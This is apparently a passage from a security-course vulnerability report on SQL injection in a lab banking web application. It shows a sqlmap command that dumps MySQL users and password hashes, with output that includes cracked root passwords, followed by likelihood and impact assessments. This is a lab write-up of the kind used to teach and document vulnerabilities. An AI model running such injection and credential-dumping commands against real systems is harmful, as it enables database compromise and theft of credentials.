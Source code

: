 \begin{lstlisting}[caption=Get password of database root user,label=listing:database_get_password]
	python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --users --passwords -D banking_development 
	...
	database management system users [8]:
	[*] ''@'localhost'
	[*] ''@'samurai-wtf'
	[*] 'debian-sys-maint'@'localhost'
	[*] 'phpmyadmin'@'localhost'
	[*] 'root'@'127.0.0.1'
	[*] 'root'@'::1'
	[*] 'root'@'localhost'
	[*] 'root'@'samurai-wtf'
	...
	database management system users password hashes:                                               
	[*]  [1]:
	password hash: NULL
	[*] debian-sys-maint [1]:
	password hash: *3380A3DC27DEAC2CFFE40754FE91863CE3B5E786
	[*] phpmyadmin [1]:
	password hash: *8CE09BF054AFC740BF3C6153310E9A9565E34DE0
	clear-text password: samurai
	[*] root [2]:
	password hash: *7D9A6BEA19329B17998DC4F1130F8E40884A227F
	clear-text password: badass
	password hash: *8CE09BF054AFC740BF3C6153310E9A9565E34DE0
	clear-text password: samurai
	
\end{lstlisting}

With a integrated dictionary-based password cracking tool, you can convert the hashed password to plain text assuming weak passwords (like in our case). Now you can access adminer web-interface and login as root.


\section{Likelihood}
Assuming that the attacker has basic knowledge about MySql-Injection and knows how to use sqlmap, it's very likely that this vulnerability will be exploited.


\section{Implication}
The vulnerability in combination with sqlmap leads to full compromise of all data, stored in the database. The attacker can hijack information about the names of databases, tables, columns of tables and can even dump whole tables.  In our special case, it was even possible to get the users' passwords in plaintext, because they weren't hashed.
You can also get the name and the password of the root user of the database. This was benifited by a weak password, whereby the plain password could be recovered from the received hash within seconds. This results in full write access to the database for the attacker.


